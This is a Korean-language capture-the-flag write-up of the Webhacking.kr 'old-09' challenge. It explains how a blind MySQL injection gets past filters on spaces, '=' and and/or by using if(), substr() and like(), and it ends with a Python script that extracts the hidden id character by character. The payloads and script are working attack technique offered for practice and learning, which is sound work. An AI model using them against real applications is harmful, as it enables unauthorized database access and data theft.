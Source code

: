 ```yaml
---
title: ["[Webhacking.kr] old-09"]
date: 2024-11-01 09:00:00 +0900
categories: [writeup, webhacking.kr]
tags: [web, blind sqli, mysql, blackbox]
---
```

## Intro

![문제 설명](assets/img/writeup/webhacking.kr/old-09/recon.png)

문제에 주어진 코드가 많지 않다.  
`no` 파라미터를 받으며, `no=1`일때 apple을, `no=2`일때 banana를 반환하다.  


## Analysis

```
| id     | no  |
| ------ | --- |
| Apple  | 1   |
| Banana | 2   |
| Secret | 3   |
```
문제에서 주어진 정보에 따르면, 테이블이 다음과 같이 구성되어 있는 것 같다.  

```sql
select id from TBL where no={}
```  
`no`파라미터는 다음과 같은 쿼리문에 넘겨질 것이다.  

인젝션이 가능한지 여부를 확인하기 위해, 간단한 텍스트부터 테스트 해봤자.

```
?no=1+1
?no=2-1
?no=2>>1
?no=floor(1.3)
?no=0 or no=1
...
```
다양한 페이로드를 시도해봤지만 모두 400에러가 떴다.  
`=`을 포함한 각종 연산자와 `and`, `or` 심지어 공백까지 필터링하고 있는 것 같다.

[HackTricks Mysql Injection](https://book.hacktricks.xyz/pentesting-web/sql-injection/mysql-injection)을 참고해보자.  

```
?no=length(1)
```
동작하는 페이로드를 찾았다.  
해당 페이로드를 응용해보자.  

```
?no=if(length(id)like(11),3,0)
```  
공백과 `=`을 이용하지 않고, mysql함수를 이용한 쿼리이다.  
`id`의 길이가 11이라면, `no` 파라미터에 3이 들어가고,  
11이 아니라면, 0이 들어가는 쿼리이다.  

즉, 비교구문이 참이라면 `?no=3`에 대한 response가 올 것이고,  
거짓이라면 `?no=0`에 대한 response가 올 것이다.  
이걸 응용해서 `id`값을 구할 수 있다.  

`id`의 길이가 11인 것을 알아냈으니,  
`ascii`와 `substr`을 활용해서 `id`값을 한글자씩 계산해보자.  
```
?no=if(ascii(substr(id,1,1))like(116),3,0)
```  
이런 쿼리를 생각해봤는데 또 에러가 난다..  

## Payload

Mysql의 `like`는 대소문자를 구별하지 않는다.  
그래서, `ascii(substr())`, `ord(substr())`, `binary(substr())` 등을 써서 대소문자를 구별해주는게 중요한데,  
`substr()`외에는 동작을 안해서 어쩔 수 없이 `ascii_lowercase`만 비교했다.  

한 가지 문제가 더 발생했는데,  
Burp로 할 땐 동작하던 페이로드가 `requests`로 넘길땐 안됐다.  
`requests`를 사용할 때는 습관적으로 파라미터를 `params`를 이용해서 넘겼는데,  
이 경우에는 URL Encoding이 적용되게 된다.  
아마 서버에서 파라미터 값이 디코딩되기 전에 필터링 함수가 걸려있어서 그런게 아닐까 추정된다.  


```python
import requests
import string

url = 'https://webhacking.kr/challenge/web-09/'
cookies = {
    'PHPSESSID': 'nvvu0h5irc7okp6giavrnsdc9n'
}
id = ''

for i in range (1, 12):
    for j in string.ascii_lowercase:
        payload = f"if(substr(id,{i},1)like('{j}'),3,0)"
        response = requests.get(f"{url}?no={payload}", cookies=cookies) 
        if "Secret" in response.text:
            id += j
            print(id)
            break
```

